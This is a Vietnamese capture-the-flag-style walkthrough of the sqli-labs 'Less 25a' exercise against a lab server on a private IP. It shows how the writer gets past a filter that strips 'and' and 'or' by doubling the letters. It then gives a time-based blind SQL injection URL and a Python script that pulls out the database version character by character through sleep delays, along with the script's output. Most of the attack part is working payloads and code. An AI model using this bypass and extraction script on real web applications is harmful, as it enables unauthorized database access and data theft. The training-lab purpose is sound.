







# Less 25a

Đề bài yêu cầu nhập vào một giá trị



Thử nhập vào một giá trị



Tôi thử nhập vào một số giá trị có thể gây ra lỗi nhưng tôi không thấy lỗi gì được hiển thị lên màn hình. Như vậy ta không thể khai thác được bằng cách cho hiển thị lỗi lên màn hình.

Tôi thử tìm cách injection



Thì tôi thấy có thể injection được.

Tôi thấy trên màn hình có thông báo liên quan đến 2 ký tự `and` và `or`. Tôi thử nhập vào



Ở đây có thể dự đoán răng `and` và `or` khi nhập vào sẽ bị bỏ qua. Như vậy muốn sử dụng `and` hoặc `or` thì `and` thay bằng `anandd` còn `or` thì thay bằng `oorr`.



Trong bài này ta có thể khai thác dữ liệu dựa vào time based

```
http://192.168.84.233/sqli-labs/Less-25a/?id=1 anandd if(substr((select @@version),1,1)='5',sleep(10),false) --+
```



Như vậy ta có thể sử dụng script để lấy thông tin trong DB

```
import requests
import time
import string

url_1 = "http://192.168.84.233/sqli-labs/Less-25/?id=1' anandd if(substr(("
query = "select @@version"
url_2 = "),{},1)='{}',sleep(5), false) --+"
url = url_1 + query + url_2
lists = string.printable

for n in range(1,16):
    for i in lists:
        url1 = url.format(n,i)
        time_1 = time.time()
        result = requests.get(url1)
        time_2 = time.time()
        if (time_2 - time_1 >= 5):
            print(i)
            break
```

Kết quả như sau

```
python Sql-time-based.py 
5
.
5
.
6
0
-
m
a
r
i
a
d
b
```

Tương tự như vậy ta có thể show các thông tin khác bằng cách thay câu query trong script

Ta cũng có thể thêm script vào server

